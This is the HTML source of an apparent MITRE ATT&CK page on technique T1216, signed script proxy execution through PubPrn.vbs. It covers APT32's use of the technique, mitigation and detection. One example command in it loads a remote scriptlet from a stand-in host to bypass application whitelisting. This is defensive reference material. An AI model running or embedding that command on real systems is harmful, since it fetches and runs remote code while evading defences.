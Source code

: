 <div class="container-fluid">
 <h1>
  Signed Script Proxy Execution
 </h1>
 <div class="row">
  <div class="col-md-8 description-body">
   <p>
    Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.
   </p>
   <p>
    PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site.
    <span class="scite-citeref-number" data-reference="Enigma0x3 PubPrn Bypass" id="scite-ref-1-a">
     <sup>
      <a aria-describedby="qtip-0" data-hasqtip="0" href="https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/" target="_blank">
       [1]
      </a>
     </sup>
    </span>
    Example command:
    <code>
     cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png
    </code>
   </p>
   <p>
    There are several other signed scripts that may be used in a similar manner.
    <span class="scite-citeref-number" data-reference="GitHub Ultimate AppLocker Bypass List" id="scite-ref-2-a">
     <sup>
      <a aria-describedby="qtip-1" data-hasqtip="1" href="https://github.com/api0cradle/UltimateAppLockerByPassList" target="_blank">
       [2]
      </a>
     </sup>
    </span>
   </p>
  </div>
  <div class="col-md-4">
   <div class="card">
    <div class="card-body">
     <div class="card-data">
      <span class="h5 card-title">
       ID
      </span>
      : T1216
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Tactic
      </span>
      : Defense Evasion, Execution
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Platform:
      </span>
      Windows
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Permissions Required:
      </span>
      User
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Data Sources:
      </span>
      Process monitoring, Process command-line parameters
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Supports Remote:
      </span>
      No
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Defense Bypassed:
      </span>
      Application whitelisting, Digital Certificate Validation
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Contributors:
      </span>
      Praetorian
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Version
      </span>
      : 1.0
     </div>
    </div>
   </div>
  </div>
 </div>
 <h2 class="pt-3" id="examples">
  Examples
 </h2>
 <table class="table table-bordered table-light mt-2">
  <thead>
   <tr>
    <th scope="col">
     Name
    </th>
    <th scope="col">
     Description
    </th>
   </tr>
  </thead>
  <tbody class="bg-white">
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0050">
      APT32
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0050">
       APT32
      </a>
      has used PubPrn.vbs within execution scripts to execute malware, possibly bypassing defenses.
      <span class="scite-citeref-number" data-reference="Twitter ItsReallyNick Status Update APT32 PubPrn" id="scite-ref-3-a" onclick="scrollToRef('scite-3')">
       <sup>
        <a aria-describedby="qtip-2" data-hasqtip="2" href="https://twitter.com/ItsReallyNick/status/944321013084573697" target="_blank">
         [3]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
  </tbody>
 </table>
 <h2 class="pt-3" id="mitigation">
  Mitigation
 </h2>
 <p>
  Certain signed scripts that can be used to execute other programs may not be necessary within a given environment. Use application whitelisting configured to block execution of these scripts if they are not required for a given system or network to prevent potential misuse by adversaries.
 </p>
 <h2 class="pt-3" id="detection">
  Detection
 </h2>
 <p>
  Monitor script processes, such as cscript, and command-line parameters for scripts like PubPrn.vbs that may be used to proxy execution of malicious files.
 </p>
 <h2 class="pt-3" id="references">
  References
 </h2>
 <div class="row">
  <div class="col">
   <ol>
    <li>
     <span class="scite-citation" id="scite-1">
      <span class="scite-citation-text">
       <a class="external text" href="https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/" name="scite-1" rel="nofollow" target="_blank">
        Nelson, M. (2017, August 3). WSH INJECTION: A CASE STUDY. Retrieved April 9, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-2">
      <span class="scite-citation-text">
       <a class="external text" href="https://github.com/api0cradle/UltimateAppLockerByPassList" name="scite-2" rel="nofollow" target="_blank">
        Moe, O. (2018, March 1). Ultimate AppLocker Bypass List. Retrieved April 10, 2018.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
  <div class="col">
   <ol start="3.5">
    <li>
     <span class="scite-citation" id="scite-3">
      <span class="scite-citation-text">
       <a class="external text" href="https://twitter.com/ItsReallyNick/status/944321013084573697" name="scite-3" rel="nofollow" target="_blank">
        Carr, N. (2017, December 22). ItsReallyNick Status Update. Retrieved April 9, 2018.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
 </div>
</div>
